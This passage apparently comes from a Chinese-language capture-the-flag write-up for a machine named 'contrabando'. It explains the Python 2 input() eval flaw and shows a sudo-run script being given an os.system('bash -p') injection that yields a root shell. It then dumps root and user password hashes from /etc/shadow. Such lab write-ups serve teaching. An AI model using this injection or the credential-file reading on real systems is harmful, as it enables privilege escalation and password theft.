  导致任意代码执行。输入普通单词如 hello 还会触发 NameError，因为代码没有捕获这个异常。

  Python 3 中 input() 只返回字符串，因此不存在这个问题。
:::

```python
raw_input("Enter the desired length of the password: ")
input("Enter the desired length of the password: ")
```
在两次输入中分别使用了 `raw_input` 以及 `input`, 漏洞在第二次 `input` 中出现

```sh
hansolo@contrabando:~$ sudo /usr/bin/python2 /opt/generator/app.py
[sudo] password for hansolo: 
Enter the desired length of the password: (__import__('os').system('bash -p'), 'sample')[1]
Invalid input. Using default length of 12.
Any words you want to add to the password? (__import__('os').system('bash -p'))
root@contrabando:/home/hansolo# 
```

# shell as root on host
```sh
root@contrabando:~# whoami
root
root@contrabando:~# cat /etc/shadow|grep -E 'root|hansolo'
root:$6$iMt4t.ZGMMUdyMea$oFbPAJVProRI56y9IENEs0Yq91ViYJzYsnaeUnQjqOTAAH7qHVfs5Jym47R4htCYaG/WdiHMiWh9LdNWszQdZ.:19570:0:99999:7:::
hansolo:$6$vnhLtH.LuF/ynT5H$T/XxvduxhHlS4NcGnfjae6DFxH.mMbrjNfpSbSSfkeEX8R98leb03n/IsrfuUxzS9CvS7iKN.sZEduqAZ0Y/m1:19647:0:99999:7:::
```